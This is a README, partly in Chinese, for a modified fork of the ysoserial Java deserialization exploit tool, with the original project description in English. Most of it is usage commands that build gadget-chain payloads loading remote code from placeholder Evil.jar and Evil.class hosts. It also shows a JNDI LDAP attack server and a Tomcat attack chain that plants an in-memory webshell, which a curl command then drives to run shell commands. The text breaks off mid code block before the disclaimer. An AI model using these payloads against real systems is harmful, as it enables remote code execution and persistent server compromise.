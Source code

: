 ## 快速批量生成ser序列化payload数据
例：
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CMD '/bin/bash' '-c' '/System/Applications/Calculator.app/Contents/MacOS/Calculator'
```
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JAR 'http://xxx.xxx.xxx:8080/Evil.jar'
```
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CODEBASE 'http://xxx.xxx.xxx:8080:Evil.class'
```
生成的ser文件会在当前目录的out_ser目录下，若是JNDI注入攻击，建议配合我fork并魔改过的marshalsec进行FUZZ，参考：https://github.com/threedr3am/marshalsec
```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1#Evil.class /tmp/out_ser
```
当使用序列化gadget攻击jdk8u191+的服务时，上面的http://127.0.0.1#Evil.class随意填写，起作用得是目录/tmp/out_ser下的payload，会遍历进行发送，若是jdk8u191-，那就使用codebase直接打

## tomcat通杀回显-内存webshell
例：
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
CommonsCollections11ForTomcatEchoInject > echo.payload
```
然后使用上述得到的恶意序列化数据 echo.payload 攻击一遍，然后再继续下面的操作
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
CommonsCollections11ForTomcatShellInject > shell.payload
```
使用恶意序列化数据 shell.payload 再攻击一遍，就能得到一个内存级的webshell，任意路径，参数threedram为命令
```
curl http://127.0.0.1:8080/aaa\?threedr3am\=ls%20/


## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

```